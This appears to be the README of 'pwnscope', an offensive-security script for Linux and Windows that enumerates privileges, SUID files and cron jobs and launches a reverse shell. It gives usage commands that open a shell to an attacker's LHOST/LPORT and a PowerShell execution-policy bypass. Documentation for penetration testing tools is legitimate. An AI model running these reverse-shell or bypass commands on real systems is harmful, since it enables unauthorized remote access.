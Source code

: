 # pwnscope

![grafik](https://github.com/user-attachments/assets/36d0ef20-da06-463b-a16e-dd0867944c78)


**pwnscope** is a lightweight Linux and Windows reconnaissance and minimal exploit toolkit script designed to help security professionals quickly gather system information and perform basic exploitation.
It's designed to run smarter and faster than other recon scripts yet. So just give it a try!

---

## Features

* Quick system overview (`--short`)
* Full enumeration including sudo privileges, SUID files, capabilities, cron jobs, network info, and Docker check (`--full`)
* Minimal reverse shell exploit via bash/sh (`--exploit`) requiring `LHOST` and `LPORT` environment variables
* Windows: `$env:LHOST` and `$env:LPORT`.

---

## Requirements

### Linux OS
* Bash or compatible shell (works with `/bin/bash`, `/bin/sh`, `ash`, etc.)
* Linux environment
* `sudo` privileges for some extended checks (optional)
* Basic utilities like `find`, `ps`, `ss`, `ip`, `free`, `df`, `getcap`

### Windows OS
* Admin rights (Optional)
* Powershell exec bypass (`Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass`)

---

## Usage Linux (Windows same with *.ps1 extension instead)

```bash
# Display help and usage
./pwnscope.sh

# Quick system info
./pwnscope.sh --short

# Full system enumeration
./pwnscope.sh --full

# Minimal reverse shell exploit
LHOST=10.10.10.4 LPORT=4444 ./pwnscope.sh --exploit
```

### Windows Powershell

```powershell
# For bypass Set-ExecutionPolicy:
powershell -ExecutionPolicy Bypass -File .\pwnscope.ps1 --short

# Full:
.\pwnscope.ps1 --full

# For using exploiting and Reverse Shell:
$env:LHOST = "10.10.14.5"
$env:LPORT = "4444"
.\pwnscope.ps1 --exploit
```

---

## Example Output

### Quick overview:

```
[*] Quick System Overview
Hostname: vulnserver
User: root
Kernel: 5.15.0-73-generic
Uptime: up 3 hours, 25 minutes
CPU Info: Intel(R) Xeon(R) CPU E5-2673 v4 @ 2.30GHz
Memory Usage:
              total        used        free      shared  buff/cache   available
Mem:           3.7G        1.1G        1.5G         54M        1.1G        2.3G
Swap:          0B          0B          0B
Disk Usage (root):
/dev/sda1        50G        15G        33G   31% /
Top 5 processes by memory:
root       1234  4.2  3.1  987654 123456 ?    Sl   10:00   0:05 java
...
Open ports:
LISTEN   0      128         0.0.0.0:22          0.0.0.0:*  
LISTEN   0      128         127.0.0.1:5432      0.0.0.0:*  
...
```

---

## License

MIT License — see the [LICENSE](LICENSE) file for details.

---

## Disclaimer

This tool is intended for authorized penetration testing and security assessments only. Use responsibly and legally.
